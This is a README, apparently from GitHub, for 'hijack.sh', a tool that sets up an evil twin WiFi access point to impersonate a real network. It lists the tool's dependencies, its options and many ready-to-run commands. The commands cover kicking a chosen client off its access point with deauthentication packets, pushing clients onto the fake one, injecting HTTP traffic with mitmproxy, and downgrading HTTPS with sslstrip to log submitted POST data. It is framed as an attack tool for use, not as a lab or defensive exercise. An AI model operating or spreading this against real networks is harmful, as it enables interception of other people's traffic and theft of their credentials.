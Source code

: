 # WiFi Hijack

Description:

Scans for wireless access points, then lets you choose one to impersonate. Requires two interfaces: one to maintain an internet connection to pass through to the client, and one to host the evil twin. The first interface can connect to the same access point you intend to spoof with the second interface. Make sure the second interface is offline before running this script (ifconfig wlan0 down). If the evil twin signal is stronger than the target access point, it will pick up clients automatically. If you want to target a particular client, use the --deauth flag to kick it off the target access point.

Required Package Dependencies:

- macchanger
- hostapd
- dnsmasq
- aircrack-ng

Optional Tools:

- wireshark
- mitmproxy
- sslstrip

Usage: ./hijack.sh [options]

Options:

- -w, --wan \<interface\>: Interface name for the passthrough internet connection (default eth0)
- -l, --lan \<interface\>: Interface name for the evil twin access point (default wlan0)
- -b, --bridge \<interface\>: Interfacename for the bridge interface between wan and lan (default br0)
- -s, --ssid \<ssid\>: SSID of the target access point (will prompt if not specified)
- -p, --passphrase \<passphrase\>: Passphrase for the target access point (will prompt if needed)
- -m, --mac \<mac\>: MAC address to assign to the evil twin (random if not specified)
- -d, --deauth \<mac\>: MAC address of a wireless client to deauthenticate
- -r, --rescan \<number\>: 0=Don't scan (use previous results), 1=Scan once (default), 2=Scan twice, 3=Scan thrice
- --wireshark: Launch wireshark and start capturing on the bridge interface
- --mitmproxy: Launch mitmproxy to monitor and inject HTTP traffic
- --sslstrip: Launch ssltrip to downgrade HTTPS to HTTP (when possible) and log POST requests
- --cleanup: Remove configuration files and shut down services (to recover after an interruption)

Examples:

- Automatically scan for access points, prompt to choose which one to spoof, and ask for a passphrase if necessary (default use). Internet connection is on eth0 and evil twin is set up on wlan0.
```
./hijack.sh
```
- Auto scan and prompt, but use wlan0 for internet and wlan1 for evil twin.
```
./hijack.sh -w wlan0 -l wlan1
```
- Auto scan and prompt, but use an assigned MAC address on the evil twin instead of a random one.
```
./hijack.sh -m 00:de:ad:be:ef:00
```
- Scan longer, to discover access points that may be weaker or further away.
```
./hijack.sh -r 3
```
- Use a known SSID and passphrase.
```
./hijack.sh -s "My WiFi" -p secret
```
- Skip the scan, just use the known AP (a scan must have run previously for this to work).
```
./hijack.sh -s "My WiFi" -p secret -r 0
```
- Use a known AP and force a client to disconnect, increasing the chances they will connect to the evil twin. You must know the MAC address of the client - use airodump-ng for recon in advance.
```
./hijack.sh -s "My WiFi" -p secret -d 01:23:45:67:89:ab
```
- Use a known AP, and automatically start wireshark to monitor traffic.
```
./hijack.sh -s "My WiFi" -p secret --wireshark
```
- Use a known AP, and automatically start mitmproxy to manipulate HTTP traffic.
```
./hijack.sh -s "My WiFi" -p secret --mitmproxy
```
- Use a known AP, and automatically start sslstrip to try intercepting encrypted posts.
```
./hijack.sh -s "My WiFi" -p secret --sslstrip
```
- Oops, the script crashed or something went wrong. How do I get back to square one?
```
./hijack.sh --cleanup
```

